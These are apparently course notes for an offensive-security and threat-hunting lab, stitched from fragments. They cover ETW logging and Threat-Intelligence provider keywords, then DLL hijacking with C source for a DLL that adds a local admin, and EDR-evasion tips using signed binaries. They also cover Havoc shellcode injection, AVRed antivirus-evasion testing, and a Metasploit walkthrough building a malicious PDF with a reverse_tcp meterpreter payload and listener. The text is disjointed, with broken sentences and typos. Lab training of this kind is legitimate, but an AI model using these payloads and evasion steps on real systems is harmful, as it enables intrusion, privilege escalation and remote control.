logman start mysession -p {22FB2CD6-0E7B-422B-A0C7-2FAD1FD0E716} -o mytest.etl -ets
logman start mysession -p Microsoft-Windows-Kernel-Process -o mytest.etl -ets
logman stop mysession -ets
tracerpt mytest.etl
https://github.com/Microsoft/perfview/releases
logman create trace MyETWSession -p "Microsoft-Windows-Kernel-Process" 0x8 -o "C:\temp\kernel-process.etl" -ets
.\filebeat.exe -e -c filebeat.yml -d "*"
logman start Microsoft-Windows-Kernel-Memory -p Microsoft-Windows-Kernel-Memory 0xffffffffffffffff win:informational -ets
logman stop Microsoft-Windows-Kernel-Memory -ets
tracerpt .\Microsoft-Windows-Kernel-Memory.etl -o Microsoft-Windows-Kernel-Memory.evtx -of evtx -lr
Provider GUID
Microsoft-Windows-Threat-Intelligence {F4E1897C-BB5D-5668-F1D8-040F4D8DD344}
| Value | Keyword | Description |
|---|---|---|
| 0x0000000000000001 | KERNEL_THREATINT_KEYWORD_ALLOCVM_LOCAL | Allocates virtual memory in the local process. |
| 0x0000000000000002 | KERNEL_THREATINT_KEYWORD_ALLOCVM_LOCAL_KERNEL_CALLER | Allocates virtual memory in the local process, called from kernel mode. |
| 0x0000000000000004 | KERNEL_THREATINT_KEYWORD_ALLOCVM_REMOTE | Allocates virtual memory in a remote process. |
| 0x0000000000000008 | KERNEL_THREATINT_KEYWORD_ALLOCVM_REMOTE_KERNEL_CALLER | Allocates virtual memory in a remote process, called from kernel mode. |
| 0x0000000000000010 | KERNEL_THREATINT_KEYWORD_PROTECTVM_LOCAL | Changes the protection on a region of virtual memory in the local process. |
| 0x0000000000000020 | KERNEL_THREATINT_KEYWORD_PROTECTVM_LOCAL_KERNEL_CALLER | Changes the protection on a region of virtual memory in the local process, called from kernel mode. |
| 0x0000000000000040 | KERNEL_THREATINT_KEYWORD_PROTECTVM_REMOTE | Changes the protection on a region of virtual memory in a remote process. |
| 0x0000000000000080 | KERNEL_THREATINT_KEYWORD_PROTECTVM_REMOTE_KERNEL_CALLER | Changes the protection on a region of virtual memory in a remote process, called from kernel mode. |
| 0x0000000000000100 | KERNEL_THREATINT_KEYWORD_MAPVIEW_LOCAL | Maps a view of a file mapping into the address space of the local process. |
| 0x0000000000000200 | KERNEL_THREATINT_KEYWORD_MAPVIEW_LOCAL_KERNEL_CALLER | Maps a view of a file mapping into the address space of the local process, called from kernel mode. |
| 0x0000000000000400 | KERNEL_THREATINT_KEYWORD_MAPVIEW_REMOTE | Maps a view of a file mapping into the address space of a remote process. |
| 0x0000000000000800 | KERNEL_THREATINT_KEYWORD_MAPVIEW_REMOTE_KERNEL_CALLER | Maps a view of a file mapping into the address space of a remote process, called from kernel mode. |
| 0x0000000000001000 | KERNEL_THREATINT_KEYWORD_QUEUEUSERAPC_REMOTE | Queues an asynchronous procedure call (APC) to a thread in a remote process. |
| 0x0000000000002000 | KERNEL_THREATINT_KEYWORD_QUEUEUSERAPC_REMOTE_KERNEL_CALLER | Queues an asynchronous procedure call (APC) to a thread in a remote process, called from kernel mode. |
| 0x0000000000004000 | KERNEL_THREATINT_KEYWORD_SETTHREADCONTEXT_REMOTE | Sets the context of a thread in a remote process. |
| 0x0000000000008000 | KERNEL_THREATINT_KEYWORD_SETTHREADCONTEXT_REMOTE_KERNEL_CALLER | Sets the context of a thread in a remote process, called from kernel mode. |
| 0x0000000000010000 | KERNEL_THREATINT_KEYWORD_READVM_LOCAL | Reads virtual memory in the local process. |
| 0x0000000000020000 | KERNEL_THREATINT_KEYWORD_READVM_REMOTE | Reads virtual memory in a remote process. |
| 0x0000000000040000 | KERNEL_THREATINT_KEYWORD_WRITEVM_LOCAL | Writes to virtual memory in the local process. |
| 0x0000000000080000 | KERNEL_THREATINT_KEYWORD_WRITEVM_REMOTE | Writes to virtual memory in a remote process. |
| 0x0000000000100000 | KERNEL_THREATINT_KEYWORD_SUSPEND_THREAD | Suspends a thread. |
| 0x0000000000200000 | KERNEL_THREATINT_KEYWORD_RESUME_THREAD | Resumes a suspended thread. |
| 0x0000000000400000 | KERNEL_THREATINT_KEYWORD_SUSPEND_PROCESS | Suspends all threads in a process. |
| 0x0000000000800000 | KERNEL_THREATINT_KEYWORD_RESUME_PROCESS | Resumes all threads in a suspended process. |
| 0x0000000001000000 | KERNEL_THREATINT_KEYWORD_FREEZE_PROCESS | Freezes a process, preventing it from executing. |
| 0x0000000002000000 | KERNEL_THREATINT_KEYWORD_THAW_PROCESS | Thaws a frozen process, allowing it to execute. |
| 0x0000000004000000 | KERNEL_THREATINT_KEYWORD_CONTEXT_PARSE | Parses the context of a process or thread. |
| 0x0000000008000000 | KERNEL_THREATINT_KEYWORD_EXECUTION_ADDRESS_VAD_PROBE | Probes the virtual address descriptor (VAD) for an execution address. |
| 0x0000000010000000 | KERNEL_THREATINT_KEYWORD_EXECUTION_ADDRESS_MMF_NAME_PROBE | Probes the memory-mapped file (MMF) name for an execution address. |
| 0x0000000020000000 | KERNEL_THREATINT_KEYWORD_READWRITEVM_NO_SIGNATURE_RESTRICTION | Reads or writes virtual memory without signature restrictions. |
| 0x0000000040000000 | KERNEL_THREATINT_KEYWORD_DRIVER_EVENTS | Logs events related to kernel-mode drivers. |
| 0x0000000080000000 | KERNEL_THREATINT_KEYWORD_DEVICE_EVENTS | Logs events related to device operations. |
| 0x8000000000000000 | Microsoft-Windows-Threat-Intelligence/Analytic | Logs analytic events for threat intelligence. |
| Value | Level | Description |
|---|---|---|
| 0x04 | win:Informational | Information |
| PID | Image |
|---|---|
| 0x00000000 |
https://github.com/Lsecqt-Sponsors/Haunt_Agent/blob/main/Payload_Type/haunt/haunt/agent_code/etw.ps1 https://github.com/MHaggis/PowerShell-Hunter
https://www.mdsec.co.uk/2020/03/hiding-your-net-etw/
Additional PrivEsc
IMPORTANT: We achieve not only
Privilege Escalation, but alsocode-executionandpersistence!!!
DLL Hijack/Sideloading
https://www.bordergate.co.uk/windows-privilege-escalation/#DLL-Hijacking The following code can be used to create a malicious DLL:
Bring your own vulnerable signed MS binary:
OLEVIEW
Why? EDR's will check if dll's loaded by LOL windows binaries happen from the right directory - by dropping a signed binary that is not present on the file system, we evding that detection.
Additionally OLEVIEW will
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
if (dwReason == DLL_PROCESS_ATTACH) {
system("cmd.exe /k net user localadmin Password1 /add");
system("cmd.exe /k net localgroup administrators localadmin /add");
ExitProcess(0);
}
return TRUE;
}
Compile with:
x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijack.dll
DLL Hijacking
onedrive -> Appdata -> cscapi.dll
https://juggernaut-sec.com/dll-hijacking/#Hijacking_the_Service_DLL_to_get_a_SYSTEM_Shell

SCHEDULED TASKS
schtasks /create /tn VulnTask /tr 'c:\MyPrograms\VulnerableTask\VulnTask.exe' /sc ONSTART /RL HIGHEST /RU "Student_adm" /RP "Threathunt25" /F
Additional Havoc
Havoc Modules
dotnet inline-execute execute
Inline - execute (BOF Loader!!!)
OPSEC Hint : When running the shell command, the process hosting your beacon/implant will spawn a child process, run the command and exit the child process. This is quite noisy compared to running everything in memory in the same process. Also command-line logging (eventlogs, sysmon and EDR's will log the commands.)
shell
shellcode
shellcode inject x64 6556 /opt/havoc/payloads/demon.x64.bin
Explain sacrificial process - advatages/disadvantages (command line logging, stability, patching, not touching other processes)
1. AVRed-Server
This is the scanning engine that sends requests to the antivirus API configured, in our training that is "Defender".
Pre-requisites : AVRed uses Radare2 so let's first install that on our windows machine and add it to the path.
https://github.com/radareorg/radare2/releases/download/5.9.8/radare2-5.9.8-w64.zip

On windows:
cd c:\git
git clone hhttps://github.com/dobin/avred-server.git
cd avred-server
pip install -r requirements.txt
Edit the config.yaml file
{
"bind_ip": "0.0.0.",
"port": 8001,
"engine": "Amsi"
}

On your windows machine browse to the link:

OPTIONALLY - Install as service with NSSM
https://nssm.cc/ci/nssm-2.24-103-gdee49fc.zip
where python.exe
C:\Users\threatadmin\AppData\Local\Programs\Python\Python312\python.exe
C:\Users\threatadmin\AppData\Local\Microsoft\WindowsApps\python.exe
nssm install AvredServer"C:\\Users\\threatadmin\\AppData\\Local\\Programs\\Python\\Python312\\python.exe" "C:\\git\\avred-server\\avred_server.py"
nssm set AvredTest AppDirectory "C:\\git\\avred-server\\"
nssm.exe start AvredServer
2. AVred
AVRed is the webgui that allows us to submit samples to the AVRed-Server, that then talks to the configured Antivirus API.
cd git
git clone https://github.com/dobin/avred.git
pip install -R requirements.txt
Edit the config.yaml
server:
Amsi: "http://localhost:8001/"
password: ""
hashCache: True
WebMaxFileSizeMb: 50
run a scan from commandline
python3 avred.py -f app/upload/meterpreter.exe
Run the (GUI) server (this is running on your KALI machine)
python3 avredweb.py
Browse to the server GUI (from windows or Kali) http:\\localhost:5000

Install as a service with NSSM
nssm install AvredWeb "C:\\Users\\threatadmin\\AppData\\Local\\Programs\\Python\\Python312\\python.exe" "C:\\git\\avred\\avredweb.py"
nssm set AvredWeb AppDirectory "C:\\git\\avred\\"
nssm.exe start AvredWeb
Chapter 1.1 - Metasploit Basics
Log on to your Unbuntu VM with admin/admin, open a terminal prompt and start the metasploit console:
msfconsole

We're going to create a malicious PDF file which contains a meterpreter backdoor that sets up a reverse shell on port 12345. This attack requires an exploit on Adobe PDF, let's have a look which exploits are available within Metasploit to accomplish this.
search type:exploit platform:windows adobe pdf

As you can see these are all pretty old exploits, but they will do for our proof on concept. There are numerous or PDF readers (such as Foxit, Slim PDF, Nitro and others). New vulnerabilities come out every day and this shows how important keeping your 3rd party applications up to date is.
For now we're going to continue with adobe_pdf_embedded_exe.
use exploit/windows/fileformat/adobe_pdf_embedded_exe
We're going to create a simple windows reverse TCP payload that will connect back to our Ubuntu server on Port 12345. This payload will be embedded into the pdf.
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.18.204
set LPORT 12345
exploit

Next step is to set up metasploit to listen to reverse TCP connections on port 12345:

back
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.18.204
set LPORT 12345
run
Open a new terminal window on your Ubuntu and copy your "evil.pdf" payload to "/temp".
NOTE: Remember to do this as super user, the root directory requires admin privileges. You can do this by typing "sudo -i" and entering your password.

sudo -i
cd /root/.msfconsole/local/
ls -la
cp evil.pdf /temp
Now let's pivot to our Windows client and download the malicious PDF, we'll be using WinSCP - to transfer our "evil.pdf" from "/temp" to our windows desktop.
NOTE: Create a new Site in WinSCP, File Protocol = SCP, Port Number =22, Username = admin, Password = admin. In the advanced options you can specify the default starting direcotry, put "/temp" there. Save the connection for later use. Connect to the Ubuntu manchine with WinSCP and download "evil.pdf" to your desktop.

Once the file is copied to your desktop, right-click the evil.pfd file and select open with "Adobe Reader 9.0". Remember we are using an old version of adobe that is still vulnerable for this exploit.